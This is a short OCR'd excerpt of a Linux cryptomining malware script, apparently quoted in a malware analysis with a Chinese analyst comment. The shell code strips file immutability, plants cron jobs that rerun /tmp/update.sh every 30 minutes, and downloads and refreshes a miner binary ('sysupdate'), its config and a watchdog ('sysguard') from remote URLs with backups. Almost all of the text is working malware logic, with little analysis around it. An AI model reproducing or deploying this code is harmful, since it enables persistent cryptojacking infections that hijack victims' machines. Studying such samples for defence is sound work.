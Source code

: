```
chattr -i /tmp/update.sh*
 
if [ ! -f "/usr/bin/crontab" ]
then
unlock_cron
echo "*/30 * * * * sh /tmp/update.sh &gt;/dev/null 2&gt;&amp;1" &gt;&gt; ${crondir}
lock_cron
else
unlock_cron
[[ $cont =~ "update.sh" ]] || (crontab -l ; echo "*/30 * * * * sh /tmp/update.sh &gt;/dev/null 2&gt;&amp;1") | crontab -
lock_cron
fi
 
if [ -f "/tmp/config.json" ]
then
filesize1=`ls -l /tmp/config.json | awk '{ print $5 }'`
if [ "$filesize1" -ne "$config_size" ]
then
pkill -f sysupdate
rm /tmp/config.json
downloads $config_url /tmp/config.json $config_url_backup
else
echo "no need download"
fi
else
downloads $config_url /tmp/config.json $config_url_backup
fi
 
if [ -f "/tmp/sysupdate" ]
then
filesize1=`ls -l /tmp/sysupdate | awk '{ print $5 }'`
if [ "$filesize1" -ne "$miner_size" ]
then
pkill -f sysupdate
rm /tmp/sysupdate
downloads $miner_url /tmp/sysupdate $miner_url_backup
else
echo "no need download"
fi
else
downloads $miner_url /tmp/sysupdate $miner_url_backup
fi
 
if [ -f "/tmp/sysguard" ]
then
filesize1=`ls -l /tmp/sysguard | awk '{ print $5 }'`
if [ "$filesize1" -ne "$watchdog_size" ]
then
pkill -f sysguard
rm /tmp/sysguard
downloads $watchdog_url /tmp/sysguard $watchdog_url_backup
else
echo "not need download"
fi
else
downloads $watchdog_url /tmp/sysguard $watchdog_url_backup
fi
 
# 这个地方突然来了一句“我在这”，跟上面有root权限执行的时候，有些许的差别。
echo "i am here"
downloads $sh_url /tmp/update.sh $sh_url_backup
 
```
